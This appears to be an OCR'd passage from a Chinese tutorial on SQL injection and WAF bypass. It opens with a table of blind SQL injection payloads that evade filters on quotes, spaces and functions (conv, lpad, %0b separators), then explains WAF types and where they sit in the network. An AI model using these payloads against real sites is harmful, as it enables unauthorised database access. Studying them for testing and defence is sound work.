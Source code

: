1 \|\| (select substr(group_concat(user_id),1,1) user from users) = 1|1 \|\| user_id is not null 或者 1 \|\| substr(user,1,1) = 0x61 或者 1 \|\| substr(user,1,1) = unhex(61)　　//　' Filtered
1 \|\| substr(user,1,1) = un<font color=#FF6347>hex</font>(61)|1 \|\| substr(user,1,1) = lower(<font color=#00BFFF>conv(11,10,36)</font>)
1 \|\| <font color=#FF6347>substr</font>(user,1,1) = lower(conv(11,10,36))|1 \|\| <font color=#00BFFF>lpad</font>(user,7,1)
1 \|\| lpad(user,7,1)|1%0b\|\|%0blpad(user,7,1)　　// ' ' Filtered

### 高级WAF绕过技术：
```
分类：
1.云waf；[阿里云盾，百度云加速，360网站卫士，加速乐等]
2.传统安全厂商的硬件waf以及一直存在的ips，ids设备；[绿盟，启明，深信服，安恒等]
3.主机防护软件如安全狗，云锁；
4.软waf如modsecurity，nginx-lua-waf等。
```
### WAF在哪里:
```
这里我就用'WAF'来代替上面所说的一些防护软件，我们需要知道这些WAF都在网络空间的哪些位置。
用户从浏览器发出一个请求（http://www.miku.com/1.php?id=1%20and1=1）到最终请求转发到服务器上，中间经历了多少设备，这些工作在网络的第几层（TCP/IP协议）？我们应用层的数据被哪些设备处理了？
这是一个经典的数通问题，了解WAF在网络空间的位置，我们便可以更清楚的知道使用哪些知识来协助我们进行WAF bypass。
```
* 如下图所示:

![](./waf-where.jpg)
```
画了一个简单的拓扑图。
图中可以很清楚的看到，我们的云waf，硬件ips/ids防护，硬件waf，主机防护，软waf以及应用程序所在的位置。
```
### WAF数据处理:
```
在明白了各种防护软件在网络环境下的拓扑之后，现在了解一下基础数据的流量与相关设备的基本处理。

假设客户端访问url：http://www.miku.com/1.php?id=1'and'1'='1，该请求请求的数据是服务器上数据库中id为1的记录。
```
* 假设这台服务器使用了相关云waf。
